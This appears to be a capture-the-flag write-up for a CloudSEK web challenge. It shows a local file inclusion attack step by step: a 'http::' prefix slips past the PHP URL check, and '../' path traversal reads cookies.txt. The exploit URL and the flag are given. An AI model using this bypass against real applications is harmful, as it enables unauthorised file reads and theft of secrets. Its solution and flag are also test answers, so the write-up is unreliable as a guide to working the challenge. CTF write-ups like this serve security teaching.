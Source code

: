 for example: `https://bevigil.com/a` this will match the regex

but trying LFI in this dose not work so i will use [online php editor](https://tio.run/#php) to debug the payload

In this online editor i'm using payload=`echo file_get_contents("https://bevigil.com/../../.code.tio");`\
In the debug section we can see following warning:

```
PHP Warning:  file_get_contents(): Unable to find the wrapper "https" - did you forget to enable it when you configured PHP? in /home/runner/.code.tio on line 3
```
 It is trying to parse the http protocall so now we have make sure it dose not identify our payload as http url so we can read the local file\
 for this we have `.` in regex after http so first i tried different characters like `httpq`, `httpd` but it still identify it as http\
 then i tried special characters, `:` works now in editor payload=`echo file_get_contents("http:://bevigil.com/../../.code.tio");` works so now we just need to try
 few `../` to get `/cookies.txt`

finally the payload=`http:://bevigil.com/../../../../../cookies.txt` give us the flag

```
https://webctf.cloudsek.com/hack-in-the-wires?getData=true&url=http:://bevigil.com/../../../../../cookies.txt
```

Flag: `CloudSEK{3FI_i$_C00!}`

Happy Hacking